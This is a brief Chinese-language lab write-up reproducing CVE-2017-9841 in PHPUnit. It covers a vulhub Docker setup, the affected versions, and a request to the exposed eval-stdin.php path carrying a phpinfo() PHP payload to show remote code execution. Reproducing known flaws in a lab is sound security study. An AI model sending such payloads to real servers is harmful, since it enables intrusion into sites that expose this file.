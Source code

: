 # 0x00 软件介绍
PHPUnit：一款php软件测试常用的框架

# 0x01 复现环境
使用环境：vulhub中的环境  
复现版本：PHPUnit 5.6.2

# 0x02 环境搭建
靶机环境：kali_x64_en-us

cd ./vulhub-master/  
cd ./phpunit/  
cd ./CVE-2017-9841/  
docker-compose build  
docker-compose up -d

# 0x03 利用条件
使用composer安装受影响版本的PHPUnit

# 0x04 影响版本
4.8.19 <= PHPUnit <= 4.8.27  
5.0.10 <= PHPUnit <= 5.6.2

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

访问http://ip:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php  
直接在请求中添加<?phpinfo();?>，如下图  
![image](./0.png)  
结果如下  
![image](./1.png)  

# 0x06 踩坑记录
坑1：  
在本地搭建环境，网络会非常非常慢，建议找一台云服务器

# 0x07 参考链接
无
